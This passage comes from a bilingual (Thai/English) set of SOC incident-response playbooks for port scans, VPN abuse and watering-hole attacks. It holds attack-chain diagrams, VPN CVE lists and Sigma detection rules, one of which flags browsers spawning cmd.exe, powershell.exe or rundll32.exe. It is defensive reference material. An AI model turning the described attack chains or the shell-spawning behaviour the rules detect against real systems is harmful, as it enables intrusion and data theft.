- [ ] ปิด ports และ services ที่ไม่จำเป็น
- [ ] เปิดใช้ rate limiting บน firewall
- [ ] Deploy network-level IPS สำหรับ scan detection
- [ ] ตรวจ default credentials บนอุปกรณ์เครือข่าย
- [ ] ใช้ port knocking สำหรับ management interfaces
- [ ] เปิด flow logging สำหรับ baseline traffic analysis
- [ ] กำหนด allowlists สำหรับ scanning IP ที่ได้รับอนุญาต

## 4. หลังเหตุการณ์ (Post-Incident)

| คำถาม | คำตอบ |
|:---|:---|
| Scan เป็นภายในหรือภายนอก? | [แหล่ง] |
| ได้รับอนุญาต (pentest/IT scan) หรือไม่? | [ใช่/ไม่] |
| พบ vulnerable services หรือไม่? | [รายการ] |
| Exposed services ได้ patch แล้วหรือไม่? | [สถานะ] |

## 6. Detection Rules (Sigma)

```yaml
title: Internal Port Scan Detected
logsource:
    product: firewall
detection:
    selection:
        action: 'deny'
        direction: 'internal'
    timeframe: 5m
    condition: selection | count(dst_port) by src_ip > 20
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [Exploit Playbook](Exploit.th.md)
- [Lateral Movement Playbook](Lateral_Movement.th.md)
- [Malware Infection Playbook](Malware_Infection.th.md)

## References
- [MITRE T1046 — Network Service Discovery](https://attack.mitre.org/techniques/T1046/)
- [MITRE T1595 — Active Scanning](https://attack.mitre.org/techniques/T1595/)


---

## File: 05_Incident_Response/Playbooks/VPN_Abuse.en.md

# Playbook: VPN Abuse / Unauthorized VPN Access

**ID**: PB-41
**Severity**: High | **Category**: Initial Access / Persistence
**MITRE ATT&CK**: [T1133](https://attack.mitre.org/techniques/T1133/) (External Remote Services), [T1078](https://attack.mitre.org/techniques/T1078/) (Valid Accounts)
**Trigger**: SIEM alert (VPN login from unusual location), impossible travel, brute force on VPN portal, compromised VPN credentials on dark web

> ⚠️ **WARNING**: VPN access provides direct internal network access. A compromised VPN session is equivalent to an attacker sitting on your LAN.

### VPN Threat Landscape

```mermaid
graph TD
    VPN["🔒 VPN Threats"] --> CredTheft["Credential Theft"]
    VPN --> Vuln["VPN Vulnerability"]
    VPN --> Split["Split Tunneling Abuse"]
    VPN --> Session["Session Hijacking"]
    
    CredTheft --> Phish["Phishing for VPN creds"]
    CredTheft --> Dark["Credentials on dark web"]
    CredTheft --> Brute["Brute force / spray"]
    
    Vuln --> CVE["CVE exploitation\nPulse Secure, FortiGate"]
    Vuln --> ZeroDay["Zero-day in VPN appliance"]
    
    Split --> Exfil["Data exfil via split tunnel"]
    Split --> Pivot["Pivot to internal network"]
    
    style VPN fill:#ff6600,color:#fff
    style CVE fill:#cc0000,color:#fff
    style ZeroDay fill:#cc0000,color:#fff
```

### VPN Attack Chain

```mermaid
graph LR
    A["1️⃣ Credential Theft\nPhishing/Dark web"] --> B["2️⃣ VPN Auth\nValid credentials"]
    B --> C["3️⃣ Internal Access\nNetwork recon"]
    C --> D["4️⃣ Lateral Movement\nRDP/SMB/WMI"]
    D --> E["5️⃣ Persistence\nBackdoor account"]
    E --> F["6️⃣ Exfiltration\nData theft"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style D fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Suspicious VPN Activity"] --> Type{"Alert type?"}
    Type -->|"Unusual location"| Geo["Check GeoIP\nProxy/VPN/Tor?"]
    Type -->|"Impossible travel"| Travel["Compare with last login\nPhysically possible?"]
    Type -->|"Brute force"| BF["Check failed attempts\nSource IP reputation"]
    Type -->|"After hours access"| Hours["Check user schedule\nOn-call roster?"]
    Geo --> Legit{"Legitimate travel?"}
    Travel --> Legit
    BF --> Threshold{"Threshold exceeded?"}
    Hours --> Legit
    Legit -->|"No — Suspicious"| Verify["📞 Call user to verify"]
    Legit -->|"Yes — Expected"| Log["Log & monitor"]
    Threshold -->|"Yes > 10 failures"| Block["🔴 Block source IP"]
    Verify --> Confirmed{"User confirms?"}
    Confirmed -->|"No — Not them"| Contain["🔴 CONTAIN\nRevoke VPN session"]
    Confirmed -->|"Yes — Legitimate"| Close["Close alert"]
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
```

### Investigation Process

```mermaid
sequenceDiagram
    participant SIEM
    participant SOC as SOC Analyst
    participant VPN as VPN Admin
    participant User
    participant IR as IR Team

    SIEM->>SOC: 🚨 VPN anomaly detected
    SOC->>VPN: Pull session logs (IP, duration, bandwidth)
    SOC->>SOC: GeoIP check + impossible travel calc
    SOC->>User: 📞 Phone call verification
    User->>SOC: "That wasn't me!"
    SOC->>VPN: Terminate active session immediately
    SOC->>IR: Escalate — compromised VPN credentials
    IR->>VPN: Reset user credentials + revoke MFA token
    IR->>SOC: Hunt for lateral movement during session
```

### VPN Session Risk Scoring

```mermaid
graph TD
    Score["Risk Score Calculation"] --> Geo{"GeoIP unusual?"}
    Geo -->|Yes| G["+ 30 points"]
    Geo -->|No| G0["+ 0"]
    Score --> Time{"Outside business hours?"}
    Time -->|Yes| T["+ 20 points"]
    Time -->|No| T0["+ 0"]
    Score --> Duration{"Session > 8 hours?"}
    Duration -->|Yes| D["+ 15 points"]
    Duration -->|No| D0["+ 0"]
    Score --> BW{"High bandwidth?"}
    BW -->|Yes| B["+ 25 points"]
    BW -->|No| B0["+ 0"]
    Score --> MFA{"MFA bypassed?"}
    MFA -->|Yes| M["+ 50 points 🔴"]
    MFA -->|No| M0["+ 0"]
    G --> Total["Total Score"]
    T --> Total
    D --> Total
    B --> Total
    M --> Total
    style Score fill:#333,color:#fff
    style M fill:#cc0000,color:#fff
```

### Response Timeline

```mermaid
gantt
    title VPN Abuse Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        SIEM alert              :a1, 00:00, 5min
        GeoIP + travel analysis :a2, after a1, 10min
    section Verification
        Contact user            :a3, after a2, 15min
        Confirm unauthorized    :a4, after a3, 5min
    section Containment
        Kill VPN session        :a5, after a4, 2min
        Reset credentials       :a6, after a5, 10min
    section Investigation
        Session activity audit  :a7, after a6, 60min
        Lateral movement hunt   :a8, after a7, 120min
    section Recovery
        New credentials         :a9, after a8, 30min
```

### VPN Appliance Vulnerability Check

```mermaid
graph TD
    subgraph "Critical VPN CVEs to Monitor"
        CVE1["CVE-2024-21762\nFortiOS RCE"]
        CVE2["CVE-2023-46805\nIvanti Connect Secure"]
        CVE3["CVE-2021-22893\nPulse Secure RCE"]
        CVE4["CVE-2020-5902\nF5 BIG-IP"]
        CVE5["CVE-2023-20269\nCisco ASA/FTD"]
    end
    style CVE1 fill:#cc0000,color:#fff
    style CVE2 fill:#cc0000,color:#fff
    style CVE3 fill:#cc0000,color:#fff
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Identify suspicious VPN session (user, IP, duration) | SOC T1 |
| 2 | GeoIP + impossible travel analysis | SOC T1 |
| 3 | Contact user via phone for verification | SOC T1 |
| 4 | If unauthorized — kill VPN session immediately | VPN Admin |
| 5 | Reset user password and revoke MFA token | IAM Team |
| 6 | Check for activity during unauthorized session | SOC T2 |

## 2. Investigation Checklist

### VPN Session Analysis
- [ ] Source IP address and GeoIP location
- [ ] Session start/end time and duration
- [ ] Bandwidth consumed (unusual data transfer?)
- [ ] VPN client version and device fingerprint
- [ ] MFA method used (was it bypassed?)
- [ ] Concurrent sessions (user logged in from 2 locations?)

### Network Activity During Session
- [ ] Internal hosts accessed during VPN session
- [ ] File shares mounted or accessed
- [ ] RDP/SSH sessions initiated
- [ ] DNS queries made (internal reconnaissance?)
- [ ] Data volume transferred (exfiltration indicator)

### Credential Investigation
- [ ] Check dark web/paste sites for credential exposure
- [ ] Review password change history
- [ ] Check if same credentials used elsewhere (password reuse)
- [ ] Review MFA enrollment/changes

## 3. Containment

| Scope | Action | Details |
|:---|:---|:---|
| **VPN Session** | Terminate immediately | Kill active session |
| **Credentials** | Reset password + MFA | New token enrollment |
| **Source IP** | Block at perimeter | Firewall rule |
| **Internal access** | Review and revoke | File shares, RDP |

## 4. Eradication & Recovery

1. Force password reset for affected account
2. Re-enroll MFA (new device/token)
3. Review all systems accessed during unauthorized session
4. Check for persistence (new accounts, scheduled tasks, backdoors)
5. Patch VPN appliance if vulnerability exploited

## 5. Post-Incident

### Lessons Learned
| Question | Answer |
|:---|:---|
| How were VPN credentials compromised? | [Phishing/dark web/reuse] |
| Was MFA enabled and enforced? | [Yes/No] |
| Did anomaly detection trigger promptly? | [Time to detect] |
| Was split tunneling policy appropriate? | [Review] |

## 6. Detection Rules (Sigma)

```yaml
title: VPN Login from Unusual Country
logsource:
    product: vpn
detection:
    selection:
        action: 'login_success'
    filter:
        src_country|contains:
            - 'TH'
            - 'US'
            - 'SG'
    condition: selection and not filter
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Account Compromise Playbook](Account_Compromise.en.md)
- [Impossible Travel Playbook](Impossible_Travel.en.md)
- [Brute Force Playbook](Brute_Force.en.md)
- [Tier 1 Runbook](../Runbooks/Tier1_Runbook.en.md)

## References
- [MITRE T1133 — External Remote Services](https://attack.mitre.org/techniques/T1133/)
- [CISA — VPN Security](https://www.cisa.gov/news-events/cybersecurity-advisories)


---

## File: 05_Incident_Response/Playbooks/VPN_Abuse.th.md

# Playbook: การตอบสนอง VPN Abuse / การเข้าถึง VPN ไม่ได้รับอนุญาต

**ID**: PB-41
**ความรุนแรง**: สูง | **ประเภท**: Initial Access / Persistence
**MITRE ATT&CK**: [T1133](https://attack.mitre.org/techniques/T1133/) (External Remote Services), [T1078](https://attack.mitre.org/techniques/T1078/) (Valid Accounts)
**Trigger**: SIEM alert (VPN login จากตำแหน่งผิดปกติ), impossible travel, brute force บน VPN portal, VPN credentials ถูกเปิดเผยบน dark web

> ⚠️ **คำเตือน**: VPN access ให้สิทธิ์เข้าถึงเครือข่ายภายในโดยตรง VPN session ที่ถูกโจมตีเท่ากับผู้โจมตีนั่งอยู่บน LAN ขององค์กร

### ภาพรวมภัยคุกคาม VPN

```mermaid
graph TD
    VPN["🔒 ภัยคุกคาม VPN"] --> CredTheft["ขโมย Credential"]
    VPN --> Vuln["ช่องโหว่ VPN"]
    VPN --> Split["Split Tunneling Abuse"]
    VPN --> Session["Session Hijacking"]
    
    CredTheft --> Phish["Phishing เอา VPN creds"]
    CredTheft --> Dark["Credentials บน dark web"]
    CredTheft --> Brute["Brute force / spray"]
    
    Vuln --> CVE["CVE exploitation\nPulse Secure, FortiGate"]
    Vuln --> ZeroDay["Zero-day ใน VPN appliance"]
    
    Split --> Exfil["Exfil ข้อมูลผ่าน split tunnel"]
    Split --> Pivot["Pivot เข้าเครือข่ายภายใน"]
    
    style VPN fill:#ff6600,color:#fff
    style CVE fill:#cc0000,color:#fff
    style ZeroDay fill:#cc0000,color:#fff
```

### VPN Attack Chain

```mermaid
graph LR
    A["1️⃣ ขโมย Credential\nPhishing/Dark web"] --> B["2️⃣ VPN Auth\nCredentials ที่ถูกต้อง"]
    B --> C["3️⃣ เข้าถึงภายใน\nNetwork recon"]
    C --> D["4️⃣ Lateral Movement\nRDP/SMB/WMI"]
    D --> E["5️⃣ Persistence\nบัญชี backdoor"]
    E --> F["6️⃣ ขโมยข้อมูล\nData theft"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style D fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 กิจกรรม VPN ผิดปกติ"] --> Type{"ประเภท alert?"}
    Type -->|"ตำแหน่งผิดปกติ"| Geo["ตรวจ GeoIP\nProxy/VPN/Tor?"]
    Type -->|"Impossible travel"| Travel["เปรียบเทียบกับ last login\nเป็นไปได้ทางกายภาพ?"]
    Type -->|"Brute force"| BF["ตรวจจำนวน failed attempts\nSource IP reputation"]
    Type -->|"นอกเวลาทำงาน"| Hours["ตรวจตาราง user\nOn-call roster?"]
    Geo --> Legit{"เดินทางจริง?"}
    Travel --> Legit
    BF --> Threshold{"เกิน threshold?"}
    Hours --> Legit
    Legit -->|"ไม่ — น่าสงสัย"| Verify["📞 โทรหา user ยืนยัน"]
    Legit -->|"ใช่ — คาดหวัง"| Log["บันทึก & ตรวจติดตาม"]
    Threshold -->|"ใช่ > 10 failures"| Block["🔴 Block source IP"]
    Verify --> Confirmed{"User ยืนยัน?"}
    Confirmed -->|"ไม่ — ไม่ใช่เขา"| Contain["🔴 CONTAIN\nRevoke VPN session"]
    Confirmed -->|"ใช่ — ถูกต้อง"| Close["ปิด alert"]
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant SIEM
    participant SOC as SOC Analyst
    participant VPN as VPN Admin
    participant User
    participant IR as IR Team

    SIEM->>SOC: 🚨 ตรวจพบ VPN anomaly
    SOC->>VPN: ดึง session logs (IP, duration, bandwidth)
    SOC->>SOC: GeoIP check + คำนวณ impossible travel
    SOC->>User: 📞 โทรยืนยัน
    User->>SOC: "ไม่ใช่ผม!"
    SOC->>VPN: ตัด active session ทันที
    SOC->>IR: Escalate — VPN credentials ถูกโจมตี
    IR->>VPN: Reset credentials + revoke MFA token
    IR->>SOC: Hunt lateral movement ระหว่าง session
```

### VPN Session Risk Scoring

```mermaid
graph TD
    Score["คำนวณ Risk Score"] --> Geo{"GeoIP ผิดปกติ?"}
    Geo -->|ใช่| G["+ 30 คะแนน"]
    Geo -->|ไม่| G0["+ 0"]
    Score --> Time{"นอกเวลาทำงาน?"}
    Time -->|ใช่| T["+ 20 คะแนน"]
    Time -->|ไม่| T0["+ 0"]
    Score --> Duration{"Session > 8 ชม.?"}
    Duration -->|ใช่| D["+ 15 คะแนน"]
    Duration -->|ไม่| D0["+ 0"]
    Score --> BW{"Bandwidth สูง?"}
    BW -->|ใช่| B["+ 25 คะแนน"]
    BW -->|ไม่| B0["+ 0"]
    Score --> MFA{"MFA ถูก bypass?"}
    MFA -->|ใช่| M["+ 50 คะแนน 🔴"]
    MFA -->|ไม่| M0["+ 0"]
    G --> Total["คะแนนรวม"]
    T --> Total
    D --> Total
    B --> Total
    M --> Total
    style Score fill:#333,color:#fff
    style M fill:#cc0000,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title VPN Abuse Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        SIEM alert              :a1, 00:00, 5min
        GeoIP + travel analysis :a2, after a1, 10min
    section Verification
        ติดต่อ user             :a3, after a2, 15min
        ยืนยันไม่ได้รับอนุญาต   :a4, after a3, 5min
    section Containment
        Kill VPN session        :a5, after a4, 2min
        Reset credentials       :a6, after a5, 10min
    section Investigation
        ตรวจ session activity   :a7, after a6, 60min
        Hunt lateral movement   :a8, after a7, 120min
    section Recovery
        Credentials ใหม่        :a9, after a8, 30min
```

### ช่องโหว่ VPN Appliance ที่ต้องตรวจ

```mermaid
graph TD
    subgraph "Critical VPN CVEs"
        CVE1["CVE-2024-21762\nFortiOS RCE"]
        CVE2["CVE-2023-46805\nIvanti Connect Secure"]
        CVE3["CVE-2021-22893\nPulse Secure RCE"]
        CVE4["CVE-2020-5902\nF5 BIG-IP"]
        CVE5["CVE-2023-20269\nCisco ASA/FTD"]
    end
    style CVE1 fill:#cc0000,color:#fff
    style CVE2 fill:#cc0000,color:#fff
    style CVE3 fill:#cc0000,color:#fff
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | ระบุ VPN session ที่น่าสงสัย (user, IP, duration) | SOC T1 |
| 2 | วิเคราะห์ GeoIP + impossible travel | SOC T1 |
| 3 | ติดต่อ user ทางโทรศัพท์เพื่อยืนยัน | SOC T1 |
| 4 | ถ้าไม่ได้รับอนุญาต — ตัด VPN session ทันที | VPN Admin |
| 5 | Reset password + revoke MFA token | IAM Team |
| 6 | ตรวจกิจกรรมระหว่าง unauthorized session | SOC T2 |

## 2. รายการตรวจสอบ

### วิเคราะห์ VPN Session
- [ ] Source IP address และ GeoIP location
- [ ] เวลาเริ่ม/สิ้นสุด session และ duration
- [ ] Bandwidth ที่ใช้ (data transfer ผิดปกติ?)
- [ ] VPN client version และ device fingerprint
- [ ] MFA method ที่ใช้ (bypass ได้หรือไม่?)
- [ ] Sessions พร้อมกัน (user login จาก 2 ตำแหน่ง?)

### กิจกรรมเครือข่ายระหว่าง Session
- [ ] Hosts ภายในที่เข้าถึงระหว่าง VPN session
- [ ] File shares ที่ mount หรือเข้าถึง
- [ ] RDP/SSH sessions ที่เริ่ม
- [ ] DNS queries (internal reconnaissance?)
- [ ] ปริมาณข้อมูลที่โอน (ตัวบ่งชี้ exfiltration)

## 3. การควบคุม (Containment)

### ตรวจสอบ Credentials
- [ ] ตรวจ dark web/paste sites สำหรับ credentials ที่หลุด
- [ ] ตรวจประวัติการเปลี่ยน password
- [ ] ตรวจว่า credentials เดียวกันใช้ที่อื่นหรือไม่ (password reuse)
- [ ] ตรวจ MFA enrollment/การเปลี่ยนแปลง

| ขอบเขต | การดำเนินการ | รายละเอียด |
|:---|:---|:---|
| **VPN Session** | ตัดทันที | Kill active session |
| **Credentials** | Reset password + MFA | Enroll token ใหม่ |
| **Source IP** | Block ที่ perimeter | Firewall rule |
| **Internal access** | ตรวจสอบและเพิกถอน | File shares, RDP |

## 4. การกำจัดและกู้คืน

1. บังคับ reset password สำหรับบัญชีที่ได้รับผลกระทบ
2. Enroll MFA ใหม่ (อุปกรณ์/token ใหม่)
3. ตรวจทุกระบบที่เข้าถึงระหว่าง unauthorized session
4. ตรวจ persistence (บัญชีใหม่, scheduled tasks, backdoors)
5. Patch VPN appliance ถ้าใช้ช่องโหว่

## 5. หลังเหตุการณ์ (Post-Incident)

### บทเรียน
| คำถาม | คำตอบ |
|:---|:---|
| VPN credentials ถูกโจมตีอย่างไร? | [Phishing/dark web/reuse] |
| MFA เปิดและบังคับใช้อยู่หรือไม่? | [ใช่/ไม่] |
| Anomaly detection trigger ทันเวลาหรือไม่? | [เวลาที่ตรวจจับ] |
| นโยบาย split tunneling เหมาะสมหรือไม่? | [ทบทวน] |

## 6. Detection Rules (Sigma)

```yaml
title: VPN Login from Unusual Country
logsource:
    product: vpn
detection:
    selection:
        action: 'login_success'
    filter:
        src_country|contains:
            - 'TH'
            - 'US'
            - 'SG'
    condition: selection and not filter
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [Account Compromise Playbook](Account_Compromise.th.md)
- [Impossible Travel Playbook](Impossible_Travel.th.md)
- [Brute Force Playbook](Brute_Force.th.md)
- [คู่มือ Tier 1](../Runbooks/Tier1_Runbook.th.md)

## References
- [MITRE T1133 — External Remote Services](https://attack.mitre.org/techniques/T1133/)
- [CISA — VPN Security](https://www.cisa.gov/news-events/cybersecurity-advisories)


---

## File: 05_Incident_Response/Playbooks/Watering_Hole.en.md

# Playbook: Watering Hole Attack Response

**ID**: PB-43
**Severity**: High | **Category**: Initial Access
**MITRE ATT&CK**: [T1189](https://attack.mitre.org/techniques/T1189/) (Drive-by Compromise), [T1587.001](https://attack.mitre.org/techniques/T1587/001/) (Exploit Development)
**Trigger**: Threat intel (sector-specific compromise), EDR (exploit after browsing), IDS (redirect to exploit kit), user report (unusual behavior after visiting known site)

> ⚠️ **WARNING**: Watering hole attacks target entire industries by compromising trusted websites. The attacker waits for victims to visit — no phishing email required.

### Watering Hole Attack Chain

```mermaid
graph LR
    A["1️⃣ Reconnaissance\nIdentify target org"] --> B["2️⃣ Compromise Website\nInject exploit code"]
    B --> C["3️⃣ Visitor Profiling\nFilter by IP/org"]
    C --> D["4️⃣ Exploit Delivery\nBrowser/plugin exploit"]
    D --> E["5️⃣ Payload Install\nBackdoor on victim"]
    E --> F["6️⃣ C2 & Exfil\nData theft"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style D fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### Watering Hole vs Phishing

```mermaid
graph TD
    subgraph "Watering Hole"
        WH1["Compromise trusted site"]
        WH2["Wait for victims"]
        WH3["Selective targeting by IP"]
        WH4["No email needed"]
        WH5["Harder to detect"]
    end
    subgraph "Phishing"
        PH1["Send email with link"]
        PH2["Active targeting"]
        PH3["Mass or spear"]
        PH4["Email is the vector"]
        PH5["Email filters can detect"]
    end
    style WH1 fill:#ff6600,color:#fff
    style WH5 fill:#cc0000,color:#fff
    style PH1 fill:#ff9900,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Potential Watering Hole"] --> Source{"Alert source?"}
    Source -->|"Threat Intel"| TI["Industry alert:\ntrusted site compromised"]
    Source -->|"EDR"| EDR["Exploit chain detected\nafter web browsing"]
    Source -->|"IDS/Proxy"| Net["Redirect to exploit kit\nor suspicious JS injection"]
    TI --> Block["Block site at proxy/DNS"]
    EDR --> Isolate["Isolate endpoint\nCapture artifacts"]
    Net --> Analyze["Analyze traffic\nExtract IOCs"]
    Block --> Check["Check logs: who visited site?"]
    Isolate --> Triage["Triage endpoint for compromise"]
    Analyze --> IOC["Extract IOCs\nHash, domain, IP"]
    Check --> Scope{"Any endpoints compromised?"}
    Scope -->|Yes| Contain["🔴 CONTAIN all visited endpoints"]
    Scope -->|No| Monitor["Enhanced monitoring"]
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
```

### Investigation Process

```mermaid
sequenceDiagram
    participant TI as Threat Intel
    participant SOC as SOC Analyst
    participant Proxy as Proxy/DNS
    participant EDR
    participant IR as IR Team

    TI->>SOC: 🚨 Industry site compromised
    SOC->>Proxy: Block compromised site immediately
    SOC->>Proxy: Pull access logs — who visited?
    Proxy->>SOC: List of users who accessed site
    SOC->>EDR: Check endpoints for exploitation
    EDR->>SOC: 3 endpoints show post-exploit activity
    SOC->>IR: Escalate — confirmed watering hole
    IR->>EDR: Isolate affected endpoints
    IR->>SOC: Sweep all endpoints for IOCs
```

### Targeted Industry Assessment

```mermaid
graph TD
    subgraph "High-Value Targets for Watering Hole"
        F1["Financial sector\nBank/trading sites"]
        F2["Government\nPolicy/procurement sites"]
        F3["Defense\nContractor portals"]
        F4["Energy\nIndustry forums"]
        F5["Healthcare\nMedical portals"]
        F6["Technology\nDeveloper resources"]
    end
    style F1 fill:#cc0000,color:#fff
    style F2 fill:#cc0000,color:#fff
    style F3 fill:#cc0000,color:#fff
```

### Exploit Kit Detection Flow

```mermaid
graph TD
    Visit["User visits trusted site"] --> Redirect{"Hidden redirect?"}
    Redirect -->|No| Safe["Normal browsing"]
    Redirect -->|"Yes — iframe/JS"| EK["Exploit Kit landing"]
    EK --> Profile["Browser/OS profiling"]
    Profile --> Vuln{"Vulnerable?"}
    Vuln -->|No| Benign["No exploit delivered"]
    Vuln -->|Yes| Exploit["Exploit delivered"]
    Exploit --> Payload["Payload downloaded"]
    Payload --> C2["C2 beacon"]
    style EK fill:#ff6600,color:#fff
    style Exploit fill:#cc0000,color:#fff
    style C2 fill:#660000,color:#fff
```

### Response Timeline

```mermaid
gantt
    title Watering Hole Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Threat intel received   :a1, 00:00, 5min
        Block site at proxy     :a2, after a1, 10min
    section Scoping
        Pull proxy access logs  :a3, after a2, 15min
        Identify visitors       :a4, after a3, 30min
    section Investigation
        Check EDR for exploits  :a5, after a4, 60min
        IOC sweep all endpoints :a6, after a5, 120min
    section Recovery
        Remediate compromised   :a7, after a6, 120min
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Block compromised website at proxy/DNS | SOC T1 |
| 2 | Pull proxy logs: list all users who visited the site | SOC T1 |
| 3 | Check EDR for exploitation indicators on visitors | SOC T2 |
| 4 | Alert IT to distribute IOCs to all security tools | SOC T2 |
| 5 | Contact threat intel sources for additional IOCs | TI Team |
| 6 | Notify affected site owner (if possible) | SOC Manager |

## 2. Investigation Checklist

### Web Traffic Analysis
- [ ] Proxy logs: all visits to compromised site (30+ days)
- [ ] Look for redirects to exploit kit domains
- [ ] Check for injected JavaScript or iframe on the site
- [ ] Analyze any files downloaded during visits
- [ ] Check for unusual POST requests (data exfiltration)

### Endpoint Analysis (for visitors)
- [ ] EDR: process creation after browser exploitation
- [ ] Check for new services, scheduled tasks, or registry changes
- [ ] Look for suspicious child processes of browser
- [ ] Memory analysis for exploit shellcode
- [ ] Network connections to C2 infrastructure

### Threat Intelligence
- [ ] Cross-reference with known APT campaigns
- [ ] Check if exploit targets specific browser/plugin version
- [ ] Submit samples to sandbox (Any.Run, Hybrid Analysis)
- [ ] Share IOCs with industry ISAC

## 3. Containment

| Scope | Action |
|:---|:---|
| **Website** | Block at proxy, DNS sinkhole, firewall |
| **Endpoints** | Isolate confirmed compromised hosts |
| **Network** | Block C2 domains/IPs |
| **Browser** | Force-update browsers + disable vulnerable plugins |

## 4. Post-Incident

| Question | Answer |
|:---|:---|
| Which site was compromised and how? | [Site + method] |
| How many employees visited during the compromise window? | [Count] |
| Were any endpoints fully compromised? | [Count + details] |
| Were browser and plugins up to date? | [Status] |

## 6. Detection Rules (Sigma)

```yaml
title: Browser Child Process Spawning Suspicious Executable
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        ParentImage|endswith:
            - '\chrome.exe'
            - '\msedge.exe'
            - '\firefox.exe'
        Image|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
            - '\rundll32.exe'
    condition: selection
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Drive-By Download Playbook](Drive_By_Download.en.md)
- [Exploit Playbook](Exploit.en.md)
- [Malware Infection Playbook](Malware_Infection.en.md)
- [Web Attack Playbook](Web_Attack.en.md)

## References
- [MITRE T1189 — Drive-by Compromise](https://attack.mitre.org/techniques/T1189/)
- [CISA — Watering Hole Advisories](https://www.cisa.gov/news-events/cybersecurity-advisories)


---

## File: 05_Incident_Response/Playbooks/Watering_Hole.th.md

# Playbook: การตอบสนอง Watering Hole Attack

**ID**: PB-43
**ความรุนแรง**: สูง | **ประเภท**: Initial Access
**MITRE ATT&CK**: [T1189](https://attack.mitre.org/techniques/T1189/) (Drive-by Compromise), [T1587.001](https://attack.mitre.org/techniques/T1587/001/) (Exploit Development)
**Trigger**: Threat intel (การโจมตีเฉพาะอุตสาหกรรม), EDR (exploit หลังเข้าเว็บ), IDS (redirect ไปยัง exploit kit), user รายงาน (พฤติกรรมผิดปกติ)

> ⚠️ **คำเตือน**: Watering hole โจมตีทั้งอุตสาหกรรมโดยการ compromise เว็บไซต์ที่เชื่อถือ ผู้โจมตีรอเหยื่อมาเยี่ยมชม — ไม่ต้องส่ง phishing email

### Watering Hole Attack Chain

```mermaid
graph LR
    A["1️⃣ สำรวจ\nระบุองค์กรเป้าหมาย"] --> B["2️⃣ Compromise เว็บ\nฝัง exploit code"]
    B --> C["3️⃣ กรองผู้เยี่ยมชม\nFilter ตาม IP/org"]
    C --> D["4️⃣ ส่ง Exploit\nBrowser/plugin exploit"]
    D --> E["5️⃣ ติดตั้ง Payload\nBackdoor บนเหยื่อ"]
    E --> F["6️⃣ C2 & Exfil\nขโมยข้อมูล"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style D fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### Watering Hole vs Phishing

```mermaid
graph TD
    subgraph "Watering Hole"
        WH1["Compromise เว็บที่เชื่อถือ"]
        WH2["รอเหยื่อมาเยี่ยมชม"]
        WH3["กรองเป้าหมายตาม IP"]
        WH4["ไม่ต้องส่งอีเมล"]
        WH5["ตรวจจับยากกว่า"]
    end
    subgraph "Phishing"
        PH1["ส่งอีเมลพร้อม link"]
        PH2["โจมตีเชิงรุก"]
        PH3["Mass หรือ spear"]
        PH4["อีเมลเป็นเวกเตอร์"]
        PH5["Email filters ตรวจจับได้"]
    end
    style WH1 fill:#ff6600,color:#fff
    style WH5 fill:#cc0000,color:#fff
    style PH1 fill:#ff9900,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Watering Hole ที่เป็นไปได้"] --> Source{"แหล่ง alert?"}
    Source -->|"Threat Intel"| TI["แจ้งเตือนอุตสาหกรรม:\nเว็บที่เชื่อถือถูก compromise"]
    Source -->|"EDR"| EDR["Exploit chain ตรวจพบ\nหลังเข้าเว็บ"]
    Source -->|"IDS/Proxy"| Net["Redirect ไปยัง exploit kit\nหรือ JS injection ผิดปกติ"]
    TI --> Block["Block เว็บที่ proxy/DNS"]
    EDR --> Isolate["แยก endpoint\nเก็บ artifacts"]
    Net --> Analyze["วิเคราะห์ traffic\nดึง IOCs"]
    Block --> Check["ตรวจ logs: ใครเข้าเว็บนี้?"]
    Isolate --> Triage["ตรวจ endpoint สำหรับ compromise"]
    Analyze --> IOC["ดึง IOCs\nHash, domain, IP"]
    Check --> Scope{"Endpoints ถูก compromise?"}
    Scope -->|ใช่| Contain["🔴 CONTAIN endpoints ที่เข้าเว็บ"]
    Scope -->|ไม่| Monitor["ตรวจติดตามเข้มข้น"]
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant TI as Threat Intel
    participant SOC as SOC Analyst
    participant Proxy as Proxy/DNS
    participant EDR
    participant IR as IR Team

    TI->>SOC: 🚨 เว็บอุตสาหกรรมถูก compromise
    SOC->>Proxy: Block เว็บที่ถูก compromise ทันที
    SOC->>Proxy: ดึง access logs — ใครเข้าเว็บ?
    Proxy->>SOC: รายชื่อ users ที่เข้าเว็บ
